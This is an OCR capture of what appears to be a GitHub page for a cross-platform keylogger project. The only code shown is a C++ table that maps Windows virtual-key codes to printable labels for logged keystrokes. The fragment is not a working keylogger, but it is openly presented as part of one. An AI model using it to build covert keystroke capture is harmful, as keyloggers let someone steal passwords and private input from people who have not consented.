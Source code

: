 # Keylogger_yogi
keylogger for windows,mac and linux
const std::map<int, std::string> keyname{ 
	{VK_BACK, "[BACKSPACE]" },
	{VK_RETURN,	"\n" },
	{VK_SPACE,	"_" },
	{VK_TAB,	"[TAB]" },
	{VK_SHIFT,	"[SHIFT]" },
	{VK_LSHIFT,	"[LSHIFT]" },
	{VK_RSHIFT,	"[RSHIFT]" },
	{VK_CONTROL,	"[CONTROL]" },
	{VK_LCONTROL,	"[LCONTROL]" },
	{VK_RCONTROL,	"[RCONTROL]" },
	{VK_MENU,	"[ALT]" },
	{VK_LWIN,	"[LWIN]" },
	{VK_RWIN,	"[RWIN]" },
	{VK_ESCAPE,	"[ESCAPE]" },
	{VK_END,	"[END]" },
	{VK_HOME,	"[HOME]" },
	{VK_LEFT,	"[LEFT]" },
	{VK_RIGHT,	"[RIGHT]" },
	{VK_UP,		"[UP]" },
	{VK_DOWN,	"[DOWN]" },
	{VK_PRIOR,	"[PG_UP]" },
	{VK_NEXT,	"[PG_DOWN]" },
	{VK_OEM_PERIOD,	"." },
	{VK_DECIMAL,	"." },
	{VK_OEM_PLUS,	"+" },
	{VK_OEM_MINUS,	"-" },
	{VK_ADD,		"+" },
	{VK_SUBTRACT,	"-" },
	{VK_CAPITAL,	"[CAPSLOCK]" },
};
